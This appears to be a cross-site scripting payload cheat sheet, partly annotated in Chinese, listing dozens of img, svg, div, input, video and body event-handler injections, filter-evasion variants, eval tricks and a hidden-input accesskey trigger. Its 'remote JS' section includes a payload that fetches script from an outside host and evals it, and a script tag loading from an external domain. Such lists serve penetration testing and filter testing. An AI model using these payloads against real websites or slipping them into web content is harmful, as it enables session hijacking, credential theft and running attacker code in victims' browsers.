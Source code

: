 ```javascript
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从触摸屏上移开时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕上拖动时
```
  #### 远程Js
  	<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
	<script src=14.rs>
  #### 隐藏在输入框中的 XSS
  	<input type="hidden" accesskey="X" onclick="alert(1)">
	使用CTRL+SHIFT+X触发
  #### 带有 JavaScript 的 XSS
  	javascript:prompt(1)
